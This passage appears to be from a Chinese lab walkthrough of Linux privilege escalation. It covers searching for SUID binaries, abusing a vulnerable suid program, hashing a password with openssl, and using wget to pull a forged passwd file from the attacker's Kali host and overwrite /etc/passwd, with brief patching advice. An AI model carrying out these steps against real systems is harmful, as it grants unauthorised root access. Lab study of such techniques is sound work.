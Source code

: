 获得 root 密码，su 切换 root 用户完成提权。

```
su root
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmSGzokaicGw3iaSfSPJklRgjRHhwCFe8ia59uSyibULBrNxsI5dAy7br1icg/640?wx_fmt=png)

修补建议：为适当的文件设置适当的权限。在这种情况下，我们应该删除其他用户的阅读权限。

suid 提权
-------

搜索具有 suid 权限的可执行文件

```
find / -type f -perm -u=s 2>/dev/null
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmj1S3rL9COhnjCvxZcCK9nZicCvIDLO0vzMPGNjEV7EibR4nbCZEAUE4A/640?wx_fmt=png)

### 二进制程序权限滥用特权提升

```
cd /home/muhammad/vuln/1/
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmUYsYEMMxXoxk0J0Ijlt7SicwlE6h8Oh6KBoIVxQqyKFk0Z6QDoTcPFg/640?wx_fmt=png)

这个 suid 文件，执行之后会有一个 shell 返回，这个 shell 是具有 root 权限的。id 查看权限，不是 root，但是对 / etc/passwd 有读写权限，我们来添加一个 root 用户。

```
./suid
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmEoSusKe6OCPmSMx5oJGm58WrZAWeQTUSXpiazzjkHI55Epp454O5DJg/640?wx_fmt=png)

切回 kali，生成密码。

```
openssl passwd -1 -salt magisec 123456
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmNFXp4g4cqN4VZHBEFF4Wkiay4vCdz9ZbibicLBxGK7drr18hnuBCKA6IQ/640?wx_fmt=png)

复制目标 / etc/passwd 到 kali 下，将我们生成的密码，按照格式写入。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmuWUAia9mZ4yj7l7Uls31lDdhveaUVC7rqMSZ49tFnJibcibTnqjezo0JQ/640?wx_fmt=png)

python 开启 http 服务器，使用 wget 覆盖 / etc/passwd。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmSwTldYcjQXZqXHd14myf9RqpdqQ2TOvQ5exwhhjhibsicl2qY5opibxdw/640?wx_fmt=png)

靶机执行

```
wget http://192.168.56.105/passwd -O /etc/passwd
```
